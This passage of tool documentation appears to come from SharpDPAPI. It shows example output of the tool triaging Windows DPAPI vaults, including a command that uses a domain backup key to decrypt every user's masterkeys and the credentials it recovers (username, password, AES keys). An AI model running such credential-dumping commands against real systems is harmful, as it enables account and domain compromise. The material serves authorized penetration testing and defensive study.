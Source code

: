 
    [*] Action: User DPAPI Vault Triage

    [*] Triaging Vaults for ALL users


    [*] Triaging Vault folder: C:\Users\harmj0y\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
        size             : 240
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      :
        aes128 key       : EDB42294C0721F2F1638A40F0CD67CD8
        aes256 key       : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793

        LastWritten      : 10/12/2018 12:10:42 PM
        FriendlyName     : Internet Explorer
        Identity         : admin
        Resource         : https://10.0.0.1/
        Authenticator    : Password!

    ...(snip)...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...
      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: DPAPI Vault Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Triaging Vaults for ALL users


    [*] Triaging Vault folder: C:\Users\harmj0y\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
        size             : 240
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      :
        aes128 key       : EDB42294C0721F2F1638A40F0CD67CD8
        aes256 key       : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793
